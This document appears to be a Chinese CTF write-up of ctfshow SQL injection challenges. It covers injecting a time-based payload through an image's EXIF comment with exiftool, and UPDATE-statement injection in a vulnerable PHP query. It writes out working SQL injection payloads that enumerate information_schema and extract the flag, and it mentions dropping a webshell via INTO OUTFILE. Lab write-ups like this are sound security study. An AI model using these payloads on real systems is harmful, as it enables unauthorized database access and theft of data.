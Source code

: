 ### 奇怪的上传 finfo&exif文件信息注入

魔术字节
在`~/ctf/payload.bin`

首先肯定是有数据库存储相关文件信息（上图中的filetype），因此查询一下PHP有哪些函数或者方法会有这样的功能，查询PHP官方手册后可以发现，其中finfo对象以及finfo_file函数是有这个功能的
因此就可以大胆猜测在filetype会存在SQL注入，并且SQL语句应该是insert开头的插入语句

那么如何控制这个filetype呢？

我们可以使用file命令查看一个文件的信息
这一个命令一出是不是就发现和上面那个页面的filetype十分相似了呢？

那么是否有工具可以控制这个filetype呢？有的，那就是exiftool

`insert into columns('字段1'，'字段2'，'字段3') value('值1'，'值2'，'值3')`
因此注入语句

`123"';select if(1,sleep(5),sleep(5));--+`
具体的exiftool的命令为
`exiftool -overwrite_original -comment="123\"');select if(1,sleep(5),sleep(5));--+" avatar.jpg`
利用exiftool添加comment之后，使用file命令查看文件信息
可以看到，命令已经成功注入到了comment中，上传该图片，就可以发现明显有延迟，所以命令注入成功。
之后拿flag就很简单了，利用into outfile写入一句话木马即可，这里就不赘述了。

### update注入

```php
//分页查询
$sql = "update ctfshow_user set pass = '{$password}' where username = '{$username}';";
      
//无过滤
```

update 注入，可以布尔盲注，但更方便的是注入 password 处逗号分隔用要查的数据改掉 username ，注释掉后面的条件可覆盖所有的记录，再查询数据实现回显。
`payload1: password=ctfshow',username=(select group_concat(table_name) from information_schema.tables where table_schema=database())%23&username=nonono`
`username: banlist,ctfshow_user,flaga`
`payload2: password=ctfshow',username=(select group_concat(column_name) from information_schema.columns where table_name='flaga')%23&username=nonono`
`username: id,flagas,info`
`payload3: password=ctfshow',username=(select flagas from flaga)%23&username=nonono`
username 找到 flag。

一个有趣的事：
如果引号闭合 没有过滤`\` 那么可以使第一个参数后的引号转义 这样就可以注入了。

```sql
update ctfshow_user set pass = '\' where username = ',username=database()#'
等价于
update ctfshow_user set pass = 'x',username=database()#'
```

查询语句`$sql = "update ctfshow_user set pass = '{$password}' where username = '{$username}';";`
eg:`password=\&username=,username=(select group_concat(flagass233) from flag233333)%23`
